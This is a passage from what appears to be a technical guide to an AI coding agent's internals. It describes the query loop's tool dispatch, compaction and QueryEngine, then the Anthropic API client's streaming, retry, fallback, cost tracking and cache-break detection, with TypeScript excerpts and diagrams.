Before compaction runs, `applyToolResultBudget()` (`src/query.ts:L379-L394`) enforces per-message limits on aggregate tool result size. This is the implementation of observation masking (HER section 13.3), which JetBrains Research verified provides a 52% cost reduction by hiding irrelevant tool outputs. The function operates on the content replacement state, which tracks which tool results have been trimmed and what content was removed. The replacement records are persisted only for query sources that read records back on resume (agent routes and REPL main thread), not for ephemeral forked agent calls.

The observation masking pattern is crucial for long-running agents. A single `git diff` command can produce tens of thousands of lines of output, most of which is irrelevant to the current task. Without observation masking, this output would be sent to the API on every subsequent request, consuming input tokens and potentially confusing the model with stale information. The tool result budget enforces a per-message limit, replacing oversized results with a summary that preserves the essential information while discarding the noise.

### Tool dispatch and streaming tool execution

After the API response is received, the query loop processes any tool_use blocks in the assistant message. The `runTools()` function (`src/services/tools/toolOrchestration.ts`) dispatches tool calls, potentially in parallel for tools that support concurrent execution. The `StreamingToolExecutor` class (`src/services/tools/StreamingToolExecutor.ts`) handles tools that produce output incrementally (like the Bash tool running a long-running command), yielding partial results to the query loop as they become available.

The tool dispatch phase maintains several invariants. First, every tool_use block must have a corresponding tool_result block in the next user message. The `ensureToolResultPairing()` function (`src/utils/messages.ts`) verifies this invariant and creates synthetic error results for any orphaned tool_use blocks. Second, tool results must be appended to the message array in the same order as the tool_use blocks that triggered them. Third, if a tool call is interrupted (e.g., by a user pressing Escape), the interrupted tool must still produce a tool_result block with an error message, so the API does not receive an orphaned tool_use.

### Post-sampling hooks

The `executePostSamplingHooks()` function (`src/utils/hooks/postSamplingHooks.ts`) runs after the model produces its response but before tool dispatch. These hooks can inspect the model's output and modify it before it is processed further. A common use case is a `PostToolUse` hook that reformats code after an edit, or a `PreToolUse` hook that validates tool parameters before execution. The post-sampling hooks are distinct from stop hooks: they run on every iteration, not just when the model declares completion.

### Task budget across compaction boundaries

The `taskBudgetRemaining` variable (`src/query.ts:L291`) tracks the remaining API task budget across compaction boundaries. After a compaction, the server sees only the summary and would under-count spending; `taskBudgetRemaining` tells the server the pre-compact context that was summarized away. This variable is loop-local (not on `State`) to avoid touching the seven `continue` sites, and is cumulative across multiple compacts: each subtracts the final context at that compact's trigger point. The task budget is distinct from the token budget because it represents a server-side constraint (the Anthropic API's own budget enforcement) rather than a client-side constraint.

### QueryEngine: the integration layer

The `QueryEngine` class (`src/QueryEngine.ts`) wraps the raw `query()` generator and provides the integration layer that the SDK, headless mode, and the REPL use to invoke the query loop. One `QueryEngine` instance is created per conversation; each `submitMessage()` call starts a new turn within the same conversation. State (messages, file cache, usage) persists across turns within the engine's lifetime.

The `QueryEngine` performs several responsibilities that sit above the raw query loop:

1. **System prompt assembly**: `submitMessage()` calls `fetchSystemPromptParts()` to build the system prompt from tools, model selection, and MCP clients. If a custom system prompt is provided, it replaces the default prompt; an appended system prompt layers on top. A memory-mechanics prompt is injected when `CLAUDE_COWORK_MEMORY_PATH_OVERRIDE` is set, teaching the model how to use the memory directory.

2. **User input processing**: The `processUserInput()` function handles slash commands, model switches, and other user-facing transformations before the query loop runs. Slash commands that mutate the message array (like `/force-snip`) write back through `setMessages()`, which in headless mode writes to the engine's `mutableMessages` array.

3. **Session persistence**: The engine ensures that the user's message is written to the transcript before entering the query loop. This is critical for `--resume`: if the process is killed before the API responds, the transcript still contains the user's message, making the session resumable. In `--bare` mode, the transcript write is fire-and-forget to avoid blocking the critical path.

4. **SDK message normalization**: The raw query loop yields `Message` objects with cc-internal fields (UUIDs, timestamps, tool-use-context references). The `QueryEngine` normalizes these into `SDKMessage` objects that strip internal fields, add session IDs, and handle ANSI stripping for headless consumers.

5. **Budget and cost tracking**: The engine checks `maxBudgetUsd` after each message from the query loop, yielding an `error_max_budget_usd` result if the cost exceeds the limit. It also tracks `totalUsage` by accumulating per-message usage from `message_start` and `message_delta` stream events.

6. **Snip replay**: When the `HISTORY_SNIP` feature is enabled, the engine receives a `snipReplay` callback that replays snip boundary messages on the internal `mutableMessages` store. This prevents stale snip markers from persisting across turns and causing the message array to grow without bound in long SDK sessions.

The `ask()` function at the bottom of `src/QueryEngine.ts` is a convenience wrapper that creates a one-shot `QueryEngine` instance, delegates to `submitMessage()`, and wires the `snipReplay` callback when the feature flag is active. Both the headless `print.ts` path and the SDK entry point use `ask()` rather than constructing a `QueryEngine` directly.

```typescript
// src/QueryEngine.ts:L184-L207
export class QueryEngine {
  private config: QueryEngineConfig
  private mutableMessages: Message[]
  private abortController: AbortController
  private permissionDenials: SDKPermissionDenial[]
  private totalUsage: NonNullableUsage
  private hasHandledOrphanedPermission = false
  private readFileState: FileStateCache
  private discoveredSkillNames = new Set<string>()
  private loadedNestedMemoryPaths = new Set<string>()

  constructor(config: QueryEngineConfig) {
    this.config = config
    this.mutableMessages = config.initialMessages ?? []
    this.abortController = config.abortController ?? createAbortController()
    this.permissionDenials = []
    this.readFileState = config.readFileCache
    this.totalUsage = EMPTY_USAGE
  }
}
```

The `QueryEngine` class is the boundary between the raw query loop (which knows about messages, streaming, and tool dispatch) and the consumer layer (which knows about sessions, SDK wire formats, and cost accounting). Understanding this boundary is essential for anyone extending cc's SDK surface: new capabilities should be added to the query loop if they affect the model-tool interaction cycle, or to the `QueryEngine` if they affect how the loop's output is consumed.

## Edge cases and failure modes

### Max output tokens recovery

When the API returns a `max_output_tokens` stop reason, the loop attempts recovery by increasing `maxOutputTokensOverride` and re-sending the request. The recovery count is capped at 3 (`src/query.ts:L164`) to prevent infinite retry loops. The error message is withheld from SDK callers until the recovery loop determines whether it can continue (`src/query.ts:L175-L179`), preventing premature session termination by callers that treat any `error` field as fatal.

```typescript
// src/query.ts:L123-L149
function* yieldMissingToolResultBlocks(
  assistantMessages: AssistantMessage[],
  errorMessage: string,
) {
  for (const assistantMessage of assistantMessages) {
    const toolUseBlocks = assistantMessage.message.content.filter(
      content => content.type === 'tool_use',
    ) as ToolUseBlock[]

    for (const toolUse of toolUseBlocks) {
      yield createUserMessage({
        content: [
          {
            type: 'tool_result',
            content: errorMessage,
            is_error: true,
            tool_use_id: toolUse.id,
          },
        ],
        toolUseResult: errorMessage,
        sourceToolAssistantUUID: assistantMessage.uuid,
      })
    }
  }
}
```

The `yieldMissingToolResultBlocks()` generator function creates synthetic error tool results for any tool_use blocks that were in progress when the `max_output_tokens` truncation occurred. This ensures that the tool result pairing invariant is maintained: every tool_use block must have a corresponding tool_result block in the next message. Without these synthetic results, the API would reject the next request because it contains orphaned tool_use blocks without matching tool_result blocks.

### The rules of thinking

The query loop must obey strict rules for thinking block preservation (`src/query.ts:L152-L163`):

1. A message containing a thinking or redacted_thinking block must be part of a query whose `max_thinking_length > 0`
2. A thinking block may not be the last message in a block
3. Thinking blocks must be preserved for the duration of an assistant trajectory (a single turn, or if that turn includes a tool_use block, then also its subsequent tool_result and the following assistant message)

Violating these rules causes API errors, and the comment at `src/query.ts:L152-L163` warns that debugging them costs "an entire day of debugging and hair pulling." The thinking block rules are a consequence of the Anthropic API's requirement that thinking blocks be part of a consistent chain: they cannot be orphaned or appear out of order. The third rule is particularly subtle: if an assistant message contains both thinking and tool_use blocks, the thinking must be preserved through the tool_result and into the next assistant message. The API expects the thinking-to-tool_use-to-tool_result chain to be complete; breaking the chain produces a validation error.

### Context rot and infinite loops

HER failure modes 6.1 (Context Rot) and 6.7 (Infinite Loops) are directly addressed by the compaction hierarchy and the token budget system. When context degrades, autocompact summarizes and reduces the window. When the model enters a retry loop without progress, the token budget eventually forces termination. The `maxTurns` parameter in `QueryParams` provides an additional circuit breaker: if set, the loop will not exceed the specified number of iterations, regardless of the model's stop reason. The `turnCount` field in `State` tracks the current iteration count and is checked at the top of each iteration.

### Memory prefetch lifecycle

The `using pendingMemoryPrefetch = startRelevantMemoryPrefetch(...)` declaration at `src/query.ts:L301-L304` uses the explicit resource management proposal (TC39 stage 3) to ensure the prefetch is properly disposed when the generator exits. The `using` keyword guarantees that the prefetch's dispose method is called on all generator exit paths -- normal return, throw, and early `.return()`. This prevents memory leaks and ensures telemetry is emitted even if the query fails. The memory prefetch fires before the API call and resolves asynchronously; by the time the API response arrives, relevant memory entries have been loaded and can be injected into the user's message as attachments.

### Skill prefetch and memory prefetch

At the top of each iteration, the query loop starts two prefetches in parallel: skill discovery and memory prefetch. The skill prefetch (`src/services/skillSearch/prefetch.ts`, gated by `feature('EXPERIMENTAL_SKILL_SEARCH')`) searches for skills that match the current context, so they are available for the model to invoke without a loading delay. The memory prefetch (`startRelevantMemoryPrefetch()`) loads relevant memory entries from the memory system (chapter 16), so they can be injected into the user's message as attachments.

Both prefetches are fire-and-forget: they run asynchronously and their results are consumed lazily. If the prefetch completes before the API response arrives, the prefetched data is available for injection; if it does not complete in time, the query proceeds without the prefetched data and the data is available for the next iteration. This design ensures that prefetch latency does not block the query loop.

The `using` keyword for `pendingMemoryPrefetch` ensures that the prefetch's dispose method is called on all generator exit paths. This is particularly important for the throw path: if the query loop throws an error, the prefetch's telemetry must still be emitted so that the analytics pipeline can track prefetch success rates and latencies.

### Reactive compact for prompt-too-long errors

The `hasAttemptedReactiveCompact` field in `State` tracks whether the loop has already attempted a reactive compaction in response to a prompt-too-long error from the API. A reactive compact is an emergency compaction triggered when the API rejects a request because the input exceeds the context window. Without this flag, the loop could attempt reactive compaction multiple times in quick succession, each time failing because the compaction did not reduce the context enough. The flag ensures that reactive compaction is attempted at most once per iteration, after which the loop falls through to the normal error handling path.

The reactive compact path is distinct from the regular autocompact path. Regular autocompact is triggered proactively when the token count exceeds a threshold (typically 80% of the context window), giving the compaction system time to summarize before the context window is full. Reactive compact is triggered reactively when the API has already rejected the request, meaning the context is already too large. Reactive compact uses a more aggressive compaction strategy that summarizes more of the conversation, trading detail for space. The `buildPostCompactMessages()` function (`src/services/compact/compact.ts`) constructs the post-compaction message array, preserving the most recent assistant message and its associated tool results while replacing older messages with a summary.

### User interruption handling

When the user presses Escape or Ctrl+C during an API call, the query loop must handle the interruption gracefully. The `createUserInterruptionMessage()` function (`src/utils/messages.ts`) creates a synthetic user message that signals the interruption to the model on the next iteration. This message is not a real user input; it is a system-generated placeholder that tells the model "the user interrupted the previous response" so the model can adjust its behavior accordingly.

The interruption handling also cancels any in-flight tool calls. The `StreamingToolExecutor` supports cancellation via an `AbortSignal`, which is triggered when the user presses Escape. The cancellation ensures that long-running tool processes (like a `npm install` that takes 30 seconds) are terminated promptly, rather than continuing to run in the background after the user has already moved on.

### Concurrent session tracking

The `countConcurrentSessions()` function (`src/utils/concurrentSessions.ts`) tracks how many cc instances are running simultaneously for the same user. This count is used for two purposes: displaying a warning in the REPL when the user has multiple sessions running (which can lead to conflicting file modifications), and for telemetry to understand how users interact with multiple concurrent sessions. The session tracking is implemented via PID files in the `~/.claude/sessions/` directory, which are created when a session starts and removed when it ends (including on graceful shutdown). Stale PID files from crashed sessions are detected by checking whether the process ID in the file is still running; if not, the file is removed.

### Message queue and slash command handling

The query loop integrates with the message queue manager (`src/utils/messageQueueManager.ts`) to process slash commands and other queued messages between iterations. The `getCommandsByMaxPriority()` function returns the highest-priority queued command, which is injected into the message array before the next API call. Slash commands like `/compact`, `/clear`, and `/model` are handled by this mechanism: they are queued by the REPL, and the query loop processes them at the start of the next iteration.

The `notifyCommandLifecycle()` function (`src/utils/commandLifecycle.ts`) tracks the lifecycle of slash commands from creation to completion. Each command is assigned a UUID, and its state transitions (created, started, completed, failed) are logged to analytics. This tracking is important for understanding how users interact with slash commands: which commands are most frequently used, how long they take to execute, and whether they succeed or fail.

### Attachment messages and memory injection

The `createAttachmentMessage()` function (`src/utils/attachments.ts`) creates messages that carry memory entries and other contextual information. These messages are injected into the conversation at the start of each turn, providing the model with relevant memories from previous sessions. The `filterDuplicateMemoryAttachments()` function ensures that the same memory entry is not injected twice in the same turn, which could happen if multiple memory sources produce overlapping results.

## Where cc diverges from the published pattern

HER Pattern 6 describes a three-phase Explore-Plan-Act loop with escalating permissions (read-only, discussion, full access). cc's query loop is not explicitly three-phase; instead, it operates in a uniform loop where the model decides at each step whether to use read-only tools, write tools, or declare completion. The permission escalation is handled externally by the permission model (chapter 32) and plan mode (chapter 45), not by the query loop itself.

HER failure mode 6.2 (Premature Completion) is mitigated by stop hooks, which are a cc-specific implementation not described in the general pattern. The pattern suggests using a comprehensive JSON feature list with all items initially marked "failing"; cc's approach is more flexible, relying on user-defined hooks to catch premature stops. This allows users to customize the premature-completion detection logic for their specific use case.

HER failure mode 6.1 (Context Rot) is addressed by the four-layer compaction hierarchy, which is more sophisticated than the "active context management" described in the pattern. cc's compaction is automatic and multi-level, with each layer optimized for different degradation patterns: snip for history pruning, microcompact for tool result trimming, context collapse for semantic summarization, and autocompact for full conversation summarization. The pattern's "progress file" approach is also implemented in cc through the TodoWrite tool (chapter 17), which maintains a persistent task list that survives compaction.

HER section 7.6 describes back-pressure mechanisms: "swallow the output and only surface errors." cc implements this through the content replacement system, which trims tool results before sending them to the API. The `applyToolResultBudget()` function is the primary mechanism: it enforces per-message size limits and replaces oversized results with summaries. This is consistent with the HER principle that "success is silent; only failures produce verbose output."

## Developer takeaways for building a long-running agent

1. **Implement the query loop as an async generator.** The `async function*` pattern allows the caller (the REPL) to consume events incrementally, update the UI in real-time, and interrupt the loop at any point. A traditional async function would require polling or callbacks.

2. **Apply compaction in a fixed order.** Each compaction layer operates on different principles (content trimming, tool result caching, semantic summarization). Running them in the wrong order can cause double-summarization or missed optimization opportunities.

3. **Track mutable state in a single object.** The `State` type with destructuring at the top of each iteration and reassignment at each continue site is cleaner than scattered variable mutations. It makes the state transitions explicit and testable.

4. **Cap recovery attempts.** The `MAX_OUTPUT_TOKENS_RECOVERY_LIMIT` prevents the loop from retrying indefinitely on truncation errors. Every recovery mechanism should have a hard cap.

5. **Withhold intermediate errors from SDK callers.** If the loop can recover from an error (like max_output_tokens), do not yield the error message until recovery has definitively failed. SDK callers may terminate the session on any error field.

6. **Use dependency injection for testability.** The `deps` parameter in `QueryParams` allows tests to substitute mock implementations of compaction, API calls, and tool dispatch without touching global state.

7. **Use `using` for resource lifecycle management.** The explicit resource management proposal ensures that prefetches and other resources are properly disposed on all exit paths, including error paths and early returns.

8. **Implement observation masking with per-message budgets.** Tool results can be orders of magnitude larger than necessary for the current task. A per-message budget that replaces oversized results with summaries provides significant cost savings (52% per JetBrains Research) without reducing task success rates.
# Talking to Anthropic: `services/api/claude.ts` and Streaming

## Overview

Every query the agent makes to the Anthropic API flows through `src/services/api/claude.ts`, a ~3,400 LOC module that handles request assembly, streaming response parsing, retry logic, fallback model selection, token metering, prompt cache break detection, and rate limit handling. This chapter examines the streaming pipeline, the retry and fallback mechanisms, the usage accumulation system, and the cost management hooks that tie into HER's cost management section (section 13). We also cover how cc defends against model regression from provider updates (HER failure mode 6.14).

The Anthropic API communication layer is one of the most operationally critical subsystems in cc. Every minute of agent runtime involves dozens of API calls, each of which must be assembled correctly (beta headers, tool definitions, thinking parameters), streamed efficiently (SSE parsing with back-pressure), and metered accurately (token counts, cost tracking, cache hit rates). The module has been shaped by production incidents: rate limit storms, cache busting from beta header toggles, model regression from provider updates, and cost overruns from infinite retry loops.

## Data structures and contracts

### API request assembly

The `streamMessages` function in `src/services/api/claude.ts` is the primary entry point. It assembles the full API request from the system prompt, messages, tool definitions, model parameters, and beta headers. The module uses the Anthropic SDK's `beta.messages` endpoint, which provides access to features like extended thinking, prompt caching, and structured outputs.

The beta headers are assembled dynamically based on feature flags and model capabilities:

```typescript
// src/services/api/claude.ts:L133-L143
import {
  AFK_MODE_BETA_HEADER,
  CONTEXT_1M_BETA_HEADER,
  CONTEXT_MANAGEMENT_BETA_HEADER,
  EFFORT_BETA_HEADER,
  FAST_MODE_BETA_HEADER,
  PROMPT_CACHING_SCOPE_BETA_HEADER,
  REDACT_THINKING_BETA_HEADER,
  STRUCTURED_OUTPUTS_BETA_HEADER,
  TASK_BUDGETS_BETA_HEADER,
} from 'src/constants/betas.js'
```

Each beta header enables a specific API feature. The headers are included or excluded based on model capabilities (not all models support all features), GrowthBook feature flags (some features are in limited rollout), and session state (some headers are latched once activated to prevent cache busting). The `getMergedBetas()` function (`src/utils/betas.ts`) orchestrates this assembly, taking the model identifier, the user's GrowthBook feature flags, and the latched header state as inputs.

The tool definitions are converted from cc's internal `Tool` type to the Anthropic API's `BetaToolUnion` schema via `toolToAPISchema()` (`src/utils/api.ts`). This conversion strips internal fields that are not part of the API contract (like `canUseTool` and `toolPermissionContext`) and formats the input schema according to the API's expectations. The tool list is sent with every request because the API does not support tool registration; this means that adding or removing tools changes the request fingerprint and can bust the prompt cache.

The `splitSysPromptPrefix()` and `logAPIPrefix()` functions (`src/utils/api.ts`) handle the system prompt assembly. The system prompt is split into a prefix (which is always included) and a suffix (which varies based on the current context). The prefix contains the core instructions that define the agent's behavior, while the suffix contains dynamic content like the current working directory, git status, and user context. The split is designed so that the prefix can be cached by the API's prompt caching mechanism, while the suffix is not cached because it changes on every request.

The request also includes a `cache_control` field that specifies which parts of the request should be cached. The `CacheScope` type (`src/utils/api.ts`) defines the scope of caching: `cache_creation_input_tokens` indicates that a cache entry was created, and `cache_read_input_tokens` indicates that a cache entry was read. The `shouldUseGlobalCacheScope()` function (`src/utils/betas.ts`) determines whether the global cache scope should be used, which enables prompt caching for all parts of the request rather than just the system prompt.

### Usage accumulation and cost tracking

Every API response includes a `usage` block with input tokens, output tokens, cache read tokens, and cache creation tokens. The `addToTotalSessionCost()` function (imported from `src/cost-tracker.ts` into `claude.ts` at L146) converts these to USD using `calculateUSDCost()` (`src/utils/modelCost.ts`). The cost is accumulated in `bootstrap/state.ts`'s `totalCostUSD` field, which is exposed to the REPL for display. The `addToTotalCostState()` function (`src/bootstrap/state.ts:L557-L564`) also tracks per-model usage via the `modelUsage` field, which maps model names to `ModelUsage` objects containing input/output token counts, cache read/creation counts, and cumulative cost.

The usage is also logged to analytics via `logAPISuccessAndDuration()` (`src/services/api/logging.ts`), which records per-query metrics including model, latency, token counts, and cache hit rates. The `NonNullableUsage` type (originally defined in `src/entrypoints/sdk/sdkUtilityTypes.js` and re-exported from `src/services/api/logging.ts`) ensures that usage fields are always present in telemetry events, even when the API response is incomplete.

```typescript
// src/entrypoints/sdk/sdkUtilityTypes.js (re-exported from logging.ts)
type NonNullableUsage = {
  input_tokens: number
  output_tokens: number
  cache_creation_input_tokens: number
  cache_read_input_tokens: number
  server_tool_use: number | null
}
```

The `server_tool_use` field tracks server-side tool invocations (like web search), which have a separate billing model from regular token usage. This field is nullable because not all API responses include it; the `NonNullableUsage` type uses `number | null` rather than `number` to distinguish between "zero server tool uses" and "server tool use count not available."

### Usage tracking and utilization queries

The `src/services/api/usage.ts` module provides the `fetchUtilization()` function, which queries the Anthropic API's `/api/oauth/usage` endpoint to retrieve the user's current rate-limit utilization. The function is gated on OAuth authentication: if the user is not a Claude AI subscriber or the OAuth token is expired, it returns early with an empty object or null. The response has a 5-second timeout to prevent the REPL from stalling on slow API responses.

The `Utilization` type returned by `fetchUtilization()` contains rate-limit windows keyed by scope: `five_hour`, `seven_day`, `seven_day_oauth_apps`, `seven_day_opus`, and `seven_day_sonnet`. Each window is a `RateLimit` object with a `utilization` percentage (0-100) and a `resets_at` ISO 8601 timestamp. The `extra_usage` field indicates whether the user has exceeded their standard allocation and is drawing on overage capacity, with its own monthly limit and utilization tracking. This multi-window design reflects the Anthropic API's tiered rate-limit system, where different model families and time windows have independent quotas.

```mermaid
flowchart
    A[API Response] --> B[usage block]
    B --> C[addToTotalSessionCost]
    C --> D[calculateUSDCost]
    D --> E[totalCostUSD in bootstrap/state.ts]
    E --> F[REPL display]

    B --> G[logAPISuccessAndDuration]
    G --> H[tengu_api_success event]
    H --> I[Analytics sinks]

    B --> J[extractQuotaStatusFromHeaders]
    J --> K[Quota status in REPL header]

    L[429 Error Response] --> M[extractQuotaStatusFromError]
    M --> K

    N[fetchUtilization] --> O[/api/oauth/usage]
    O --> P[Utilization object]
    P --> Q[five_hour / seven_day / seven_day_opus]
    Q --> R[Rate limit bars in REPL]
```

### Error classification and surfacing

The `src/services/api/errors.ts` module centralizes the translation of raw API errors into user-facing messages and analytics tags. The `getAssistantMessageFromError()` function is the primary entry point: it pattern-matches against error types (429 rate limits, 400 prompt-too-long, 529 overloaded, 401/403 authentication failures, image and PDF size errors) and produces an `AssistantMessage` with an appropriate `error` category tag (`rate_limit`, `invalid_request`, `authentication_failed`, `billing_error`, or `unknown`). The `classifyAPIError()` function provides a parallel classification path for analytics, mapping the same error patterns to Datadog tag strings (`rate_limit`, `prompt_too_long`, `server_overload`, `auth_error`, and so on).

The dual classification is necessary because the user-facing message and the analytics tag serve different purposes. The user-facing message includes actionable recovery instructions ("run /login", "double press esc to go back", "run /compact"), while the analytics tag is a stable enum for aggregation. The `errorDetails` field on `AssistantMessage` stores the raw API error string for diagnostic use (e.g., reactive compact parsing the prompt-too-long gap from `errorDetails`), but is never shown to the user directly.

### Extra body parameters from environment

The `getExtraBodyParams()` function (`src/services/api/claude.ts:L272-L299`) parses the `CLAUDE_CODE_EXTRA_BODY` environment variable and merges it into the API request body. This is a power-user escape hatch for passing custom parameters to the Anthropic API. The function uses a shallow clone of `safeParseJSON` output because the parser is LRU-cached and returns the same object reference for the same string; mutating the result would poison the cache.

```typescript
// src/services/api/claude.ts:L272-L299
export function getExtraBodyParams(betaHeaders?: string[]): JsonObject {
  const extraBodyStr = process.env.CLAUDE_CODE_EXTRA_BODY
  let result: JsonObject = {}

  if (extraBodyStr) {
    try {
      const parsed = safeParseJSON(extraBodyStr)
      if (parsed && typeof parsed === 'object' && !Array.isArray(parsed)) {
        // Shallow clone -- safeParseJSON is LRU-cached and returns the same
        // object reference for the same string. Mutating `result` below
        // would poison the cache, causing stale values to persist.
        result = { ...(parsed as JsonObject) }
      }
    } catch (error) {
      logForDebugging(
        `Error parsing CLAUDE_CODE_EXTRA_BODY: ${errorMessage(error)}`,
        { level: 'error' },
      )
    }
  }
```

The shallow clone is essential because the LRU cache in `safeParseJSON` returns the same object reference for identical inputs. If the caller mutates the returned object (e.g., by adding or removing fields), the mutation affects all subsequent callers that parse the same string. The shallow clone creates a new object with the same top-level properties, so mutations to the clone do not affect the cached original. Note that this is a shallow clone, not a deep clone: nested objects are still shared references. This is acceptable because `getExtraBodyParams` only adds top-level fields to the result.

## Control flow

### Streaming request lifecycle

The streaming pipeline follows a clear sequence: assemble request, send to API, parse SSE events, yield to the query loop, and handle completion or error.



The streaming is implemented using the Anthropic SDK's `stream()` method, which returns a `Stream` object that emits `BetaRawMessageStreamEvent` events. The events are parsed into cc's internal `StreamEvent` type and yielded to the query loop for processing. The query loop maintains a buffer of partial events that are flushed at specific boundaries (end of message, end of tool_use block, end of thinking block). This buffering ensures that the query loop processes complete events rather than partial fragments, which simplifies the downstream event handling logic.

The SSE parsing includes back-pressure handling: if the query loop's event consumer is slower than the API's event producer (e.g., because the user is scrolling through output and the Ink renderer is busy), the SDK's stream implementation buffers events in memory until the consumer catches up. This back-pressure is transparent to cc's code because the SDK handles it internally, but it means that a very long API response (e.g., a multi-thousand-token code generation) can consume significant memory if the consumer is slow.

### Retry and fallback model selection

The `withRetry()` wrapper (`src/services/api/withRetry.ts`) implements exponential backoff with jitter for transient errors (529, 429, network timeouts). The retry policy distinguishes between retriable and non-retriable errors:

- **Retriable**: 529 (overloaded), 429 (rate limited), network timeouts, `APIConnectionTimeoutError`
- **Non-retriable**: 400 (bad request), 401 (unauthorized), 403 (forbidden), `CannotRetryError`

When the primary model fails repeatedly, `FallbackTriggeredError` is thrown, and the query loop falls back to an alternate model. This implements a simple form of model routing: if Opus is unavailable, the system falls back to Sonnet. The `FallbackTriggeredError` includes the original error and the fallback model name, allowing the query loop to log the fallback event and adjust its behavior accordingly.

The jitter in the exponential backoff is critical for preventing thundering herd effects. When multiple cc instances experience the same transient error (e.g., a 529 from a shared API endpoint), they would all retry at the same time if using pure exponential backoff. The jitter randomizes the retry delay within the backoff window, spreading the retries across time and reducing the load on the API. The `withRetry()` implementation uses a full jitter strategy: the delay is uniformly distributed between 0 and the current backoff interval.

The retry logic also handles quota status extraction from error responses. The `extractQuotaStatusFromError()` function (imported from `src/services/claudeAiLimits.ts` at L99) parses the API error response for quota-related headers and body fields, updating the quota status that is displayed in the REPL. This implements HER section 13's recommendation for per-session cost caps by providing visibility into the user's remaining quota.

### Prompt cache break detection

The `checkResponseForCacheBreak()` function (`src/services/api/promptCacheBreakDetection.ts`) detects when the API's prompt cache has been invalidated by comparing the current request's `cache_creation_input_tokens` against the previous request's. A cache break means the full input must be re-processed, which is significantly more expensive. The detection logic records the prompt state (messages, system prompt, tools) and compares fingerprints across requests.

```typescript
// src/services/api/claude.ts:L246-L257
import {
  CACHE_TTL_1HOUR_MS,
  checkResponseForCacheBreak,
  recordPromptState,
} from './promptCacheBreakDetection.js'
```

The cache TTL is approximately 5 minutes on the server side. The `CACHE_TTL_1HOUR_MS` constant reflects the extended 1-hour cache available to eligible users via a GrowthBook feature flag. The `promptCache1hEligible` field in `bootstrap/state.ts` is latched on first evaluation so mid-session overage flips do not change the `cache_control` TTL, which would bust the server-side prompt cache. The latching is implemented via the getter/setter pair in `bootstrap/state.ts`: the getter returns the cached value if it is not null, and the setter only updates the value if it is currently null (first-time evaluation).

Cache break detection is logged to analytics via the `is_cache_break` and `cache_deleted_input_tokens` fields in the `tengu_api_success` event. These fields allow monitoring cache efficiency and diagnosing regressions. A sudden increase in cache breaks often indicates a bug in the beta header latching or compaction logic that is changing the request fingerprint on every iteration.

### Request lifecycle with fallback

The complete request lifecycle, including fallback, can be modeled as a state machine:

```mermaid
stateDiagram-v2
    [*] --> AssembleRequest: streamMessages called
    AssembleRequest --> SendRequest: Request ready
    SendRequest --> Streaming: 200 OK
    SendRequest --> RetryableError: 529/429/timeout
    SendRequest --> FatalError: 400/401/403
    RetryableError --> SendRequest: Backoff + retry
    RetryableError --> Fallback: Max retries exceeded
    Fallback --> AssembleRequest: Switch to fallback model
    Streaming --> AccumulateUsage: Stream complete
    AccumulateUsage --> CacheBreakCheck: Usage received
    CacheBreakCheck --> [*]: Yield to query loop
    FatalError --> [*]: Propagate error
```

The fallback transition is particularly important for long-running agents. If the primary model (e.g., Opus) experiences an extended outage, the agent can continue operating with the fallback model (Sonnet), albeit with potentially reduced capability. The query loop logs the fallback event and adjusts its `maxOutputTokensOverride` to account for the fallback model's different context window size.

### Beta header assembly

The `getMergedBetas()` function (`src/utils/betas.ts`) assembles the complete list of beta headers for the API request. The assembly considers:

1. **Model capabilities**: Not all models support all betas. For example, the `interleaved-thinking-2025-05-14` beta is only supported by models that have extended thinking enabled. The `modelSupportsThinking()` and `modelSupportsAdaptiveThinking()` functions (`src/utils/thinking.ts`) determine whether the model supports extended thinking and adaptive thinking budgets, respectively. These checks gate the inclusion of thinking-related betas and parameters.

2. **Feature flags**: GrowthBook feature flags control which betas are active for a given user. The `shouldIncludeFirstPartyOnlyBetas()` function checks whether the user is on the first-party Anthropic API (as opposed to Bedrock or Vertex), which determines whether certain betas are available. Bedrock and Vertex have different beta requirements than first-party Anthropic, and including unsupported betas causes API errors.

3. **Session state**: Latched headers (AFK mode, fast mode, cache editing) stay on once activated. The latching mechanism prevents cache busting from feature toggles during a session.

4. **Provider context**: Bedrock and Vertex have different beta requirements than first-party Anthropic. The `getBedrockExtraBodyParamsBetas()` function (`src/utils/betas.ts`) adds Bedrock-specific parameters that are passed via the `extra_body` field rather than as beta headers.

### First-token latency tracking

